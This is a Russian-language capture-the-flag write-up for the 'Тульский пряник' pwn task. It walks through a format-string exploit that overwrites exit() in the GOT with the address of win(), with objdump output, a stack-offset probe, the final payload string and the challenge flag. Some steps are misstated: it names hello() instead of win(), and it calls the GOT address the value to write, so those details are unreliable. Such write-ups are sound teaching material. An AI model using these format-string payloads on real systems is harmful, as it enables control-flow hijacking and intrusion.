 # Ложа Тульского пряника

## Условие

Ежегодно на нашу пряничную ярмарку приезжает Тайная Пряничная Ложа, они собираются в самом дальнем шатре.

Если хотите туда попасть, то вам нужно знать пароль. И нет, это не пряник и не самовар. Так что удачи вам попытать счастье.

Дам подсказку, в начале поприветствуете фразой 
>The well-known GingerbreadHub site


## Решение

Декомпилируем файл, видим функцию win, в которой присутствует наш необходимый флаг. Необходимо перенаправить поток выполнения программы. Для этого надо будет перезаписать адрес exit() в GOT адресом win() . Здесь есть 4 шага:
* Найдем адрес hello()
* Найдем адрес exit() в GOT
* Найдем смещение нашей строки в стеке
* Напишем правильную строку эксплойта

В начале найдем адреса функции exit - 0x0804b2a0 
> objdump -R ClubPryanikaFlag

Теперь найдем адреса функции win - 0x080491a6
> objdump -t ClubPryanikaFlag | grep win

Теперь, что касается позиции нашей строки, это четвертый параметр в стеке:
> AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
> AAAA00000200.f7e1e620.080491e3.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.

Итак, наш эксплойт будет выглядеть так:
> \xa2\xb2\x04\x08\xa0\xb2\x04\x08%<val1>x%4$hn%<val2>x%5$hn

Нам нужно вычислить значение, исходя из того, что нам нужно написать 0x0804b2a0:
    Младшие байты = 91a6 (37286 в десятичном формате).
    Старшие байты = 0804 (2052 в десятичном формате).
Однако старший байт уступает младшему, поэтому сначала мы напишем старший. Нам просто нужно инвертировать адреса, куда мы хотим писать:
    Старшие байты = 0804 (2052 в десятичном формате). Минус 8 байт для адресов = 2044.
    Младшие байты = 91a6 (37286 в десятичном формате). Минус 2052 байта, которые мы уже написали = 35234.

Вот эксплойт, который нужно вести во второй ввод:
> \xa2\xb2\x04\x08\xa0\xb2\x04\x08%2044x%4$hn%35234x%5$hn

## Flag ```TulaCTF{Da_Zdravstvuet_Tula_Da_Zdravstvuet_71}```


